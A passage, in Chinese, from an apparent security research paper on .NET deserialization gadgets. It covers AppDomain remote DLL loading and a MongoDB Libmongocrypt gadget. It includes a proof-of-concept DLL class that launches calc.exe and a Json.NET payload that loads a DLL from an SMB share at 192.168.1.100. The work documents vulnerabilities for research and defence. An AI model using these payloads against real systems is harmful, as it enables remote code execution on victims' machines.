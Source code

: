 代码段 45 AppDomainManager\_AppDomain.CreateObject 方法

所有内容可以总结为几点：

-   攻击者将一个类指向他的 SMB 服务器（或本地路径）。
-   创建 AppDomain 并将其根路径设置为攻击者控制的路径。
-   CreateObject 方法将尝试从 AppDomain 加载 `xunit.dll` 程序集（其中根目录由攻击者控制）。
-   它将尝试调用 `Xunit.Sdk.Executor.ctor(String)` 构造函数。

有趣的是，从 .NET Framework 4 版本开始，当您使用 `Assembly.LoadFrom` 等方法时，它会阻止远程 DLL 加载。但是，通过 AppDomain，如果您控制 AppDomain 路径，仍可以执行远程 DLL 加载。

攻击者可以创建一个包含以下类的示例 DLL：

```bash
namespace Xunit.Sdk 
{ 
    public class Executor 
    { 
        public Executor(string poc) 
        { 
            ProcessStartInfo psi = new ProcessStartInfo("cmd.exe", "/c calc.exe"); 
            Process proc = new Process(); 
            proc.StartInfo = psi; 
            proc.Start(); 
        } 
    } 
}
```

代码段 46 Xunit1Executor - sample malicious class stored in attacker's DLL

#### 2.3 MongoDB Libmongocrypt – WindowsLibrary / LinuxLibrary / DarwinLibrary

目标类：`MongoDB.Libmongocrypt.LibraryLoader+WindowsLibrary / MongoDB.Libmongocrypt.LibraryLoader+LinuxLibrary / MongoDB.Libmongocrypt+DarwinLibrary`

适用性（序列化器）：`Json.Net`、`XamlReader`、`MessagePack` 和可能的其他序列化器。

适用性（.NET）：.NET Framework 和 .NET>= 5

最新测试版本：1.8.0

效果：对于 Windows —— 通过远程（SMB）DLL 加载或本地 DLL 加载实现远程代码执行（需要与文件写入原语一起使用）。对于 Linux/Mac —— 本地 DLL 加载。

小工具（Json.NET）：

```bash
{ 
    "$type":"MongoDb.Libmongocrypt.LibraryLoader+WindowsLibrary,  
MongoDB.Libmongocrypt, Version=1.8.0.0, Culture=neutral, PublicKeyToken=null", 
    "path":"\\\\192.168.1.100\\native.dll" 
}
```

代码段 47 MongoDB Libmongocrypt WindowsLibrary gadget

描述：
